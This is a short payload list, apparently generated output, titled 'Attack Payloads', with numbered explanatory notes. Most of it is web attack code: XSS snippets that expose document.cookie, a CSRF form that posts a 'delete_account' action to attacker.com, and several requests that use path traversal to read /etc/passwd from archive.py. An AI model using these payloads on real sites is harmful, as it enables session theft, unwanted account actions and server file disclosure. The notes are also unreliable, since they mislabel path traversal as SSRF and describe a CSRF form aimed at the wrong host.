 #Attack Payloads
```python
<script>alert(document.cookie)</script>
<img src=x onerror="alert(document.cookie)">
<a href="#" onclick="alert(document.cookie)">Click me</a>
<form action="https://attacker.com/csrf" method="POST">
    <input type="hidden" name="action" value="delete_account">
    <input type="submit" value="Delete Account">
</form>
<iframe src="https://vulnerable-site.com/archive.py?filename=../../../etc/passwd" width="0" height="0"></iframe>
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://vulnerable-site.com/archive.py', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('filename=../../../etc/passwd');
</script>
<img src="https://vulnerable-site.com/archive.py?filename=../../../etc/passwd" onerror="alert(document.cookie)">
<a href="https://vulnerable-site.com/archive.py?filename=../../../etc/passwd">Download File</a>
<form action="https://vulnerable-site.com/archive.py" method="POST">
    <input type="hidden" name="filename" value="../../../etc/passwd">
    <input type="submit" value="Download File">
</form>
<script>
    fetch('https://vulnerable-site.com/archive.py?filename=../../../etc/passwd')
        .then(response => response.text())
        .then(data => console.log(data));
</script>
```

#Notes
1. The first payload is a basic Cross-Site Scripting (XSS) attack that displays the victim's cookie.
2. The second payload is another XSS attack that triggers the alert when the image fails to load.
3. The third payload is a clickable link that executes the XSS attack when clicked.
4. The fourth payload is a Cross-Site Request Forgery (CSRF) attack that attempts to delete the victim's account.
5. The fifth payload is a Server-Side Request Forgery (SSRF) attack that tries to read the `/etc/passwd` file from the server.
6. The sixth payload is another SSRF attack that uses XMLHttpRequest to read the `/etc/passwd` file.
7. The seventh payload is a combination of SSRF and XSS, where the image fails to load and triggers the XSS attack.
8. The eighth payload is a direct link to the SSRF attack, allowing the victim to download the `/etc/passwd` file.
9. The ninth payload is a form-based SSRF attack that allows the victim to download the `/etc/passwd` file.
10. The tenth payload is a fetch-based SSRF attack that logs the contents of the `/etc/passwd` file to the console.

These payloads cover a range of techniques, including XSS, CSRF, and SSRF, which are all relevant to the given context of security misconfiguration and CSRF vulnerabilities. The notes provide explanations for the rationale, exploitation technique, and potential impact of each payload.

